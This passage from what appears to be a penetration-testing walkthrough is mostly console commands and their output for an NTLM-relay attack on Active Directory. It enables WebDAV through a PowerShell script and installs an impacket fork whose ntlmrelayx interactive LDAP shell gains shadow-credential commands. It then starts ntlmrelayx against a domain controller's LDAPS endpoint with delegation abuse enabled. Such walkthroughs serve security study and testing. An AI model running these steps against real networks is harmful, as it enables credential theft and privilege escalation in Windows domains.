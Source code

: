 ```console
# Run enable_webdav.ps1
C:\xampp\htdocs\enable_webdav.ps1
```

#### 3. Start ntlmrelayx Listener (In Local Linux)

#### Get impacket fork : Add Shadow Credentials Commands to Ntlmrelayx's Interactive LDAP Shell

```console
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
```

```console
cd impacket
```

```console
git checkout -b remotes/origin/interactive-ldap-shadow-creds
```

```console
python3 -m venv test
```

```console
source test/bin/activate
```

```console
pip install .
```

```console
pip3 install impacket pyOpenSSL==24.0.0
```

#### Run ntlmrelayx

```console
ntlmrelayx.py -t ldaps://<DC> --delegate-access -i
```

```console {class="sample-code"}
$ ntlmrelayx.py -t ldaps://192.168.100.100 --delegate-access -i

Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```
